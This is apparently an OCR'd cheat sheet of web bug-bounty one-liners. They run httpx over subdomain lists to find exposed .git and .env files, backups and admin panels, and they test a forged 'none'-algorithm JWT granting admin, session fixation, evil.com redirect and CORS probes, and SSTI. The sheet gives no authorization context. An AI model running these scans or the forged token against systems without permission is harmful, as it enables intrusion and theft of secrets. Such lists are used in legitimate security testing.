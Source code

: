 ### WordPress XML-RPC Abuse
```bash
cat subdomains.txt | httpx -silent -path /xmlrpc.php -mc 200 -o xmlrpc_found.txt
```

🔐  JWT None Algorithm Bypass Check  
```bash
cat all_urls.txt | qsreplace 'token=eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.' | httpx -silent -mc 200 -o jwt_none_bypass.txt
```

🚀  Session Fixation via Set-Cookie  
```bash
cat subdomains.txt | httpx -silent -H "Cookie: sessionid=attacker-session" -o session_fixation.txt
```

🛜  Open Redirects  
```bash
cat urls.txt | qsreplace 'https://evil.com' | httpx -silent -fr 'evil.com' -o open_redirects.txt
```

🗂️  Exposed .git Folder  
```bash
cat subdomains.txt | httpx -silent -path /.git/HEAD -mc 200 -o git_exposed.txt
```

🌍  Exposed .env Files (Secrets Leak)  
```bash
cat subdomains.txt | httpx -silent -path /.env -mc 200 -o env_leaks.txt
```

🧬  GraphQL Introspection Enabled  
```bash
cat subdomains.txt | httpx -silent -path /graphql -x POST -body '{"query":"query IntrospectionQuery { __schema { types { name } } }"}' -fr 'data' -o graphql_introspection.txt
```

Insecure CORS (Wildcard or Null)  
```bash
cat subdomains.txt | httpx -silent -H "Origin: https://evil.com" -fr "https://evil.com" -o insecure_cors.txt
```

📂  Backup Files Discovery (.zip, .sql, etc)  
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/backup.zip\n/db.sql\n/site_backup.tar.gz') -mc 200 -o backup_files.txt
```

📊  Admin Panels Discovery  
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/admin\n/dashboard\n/panel\n/cp') -mc 200 -o admin_panels.txt
```

💀  Server Side Template Injection (SSTI)  
```bash
cat all_urls.txt | qsreplace '{{7*7}}' | httpx -silent -fr '49' -o ssti.txt
```
